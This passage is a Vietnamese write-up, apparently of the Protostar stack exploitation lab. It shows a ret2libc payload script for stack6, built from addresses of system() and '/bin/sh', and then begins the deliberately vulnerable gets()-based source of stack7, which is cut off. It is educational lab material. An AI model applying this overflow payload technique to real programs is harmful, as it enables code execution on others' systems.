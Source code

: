 Địa chỉ của xâu `"/bin/sh"` trong thư viện `libc` của chương trình đang chạy:

![alt text](image-14.png)
![alt text](image-15.png)

Địa chỉ của hàm `system()`:

![alt text](image-16.png)

Cuối cùng là tìm vị trí của return address để ghi đè (mình sẽ đặt break point tại lệnh `ret` và truyền vào xâu chữ cái như đã giới thiệu ở stack5):

![alt text](image-17.png)

Return address bị ghi đè bởi giá trị hex là `0x75757575` tương ứng với xâu `uuuu`
```py
buf = 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrsssstttt'
system = '\xb0\xff\xec\xb7'
ret = '\xfa\x84\x04\x08'
sh = '\xbf\x63\xfb\xb7'
print buf + system + ret+ sh
```

![alt text](image-18.png)

### Stack 7
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
```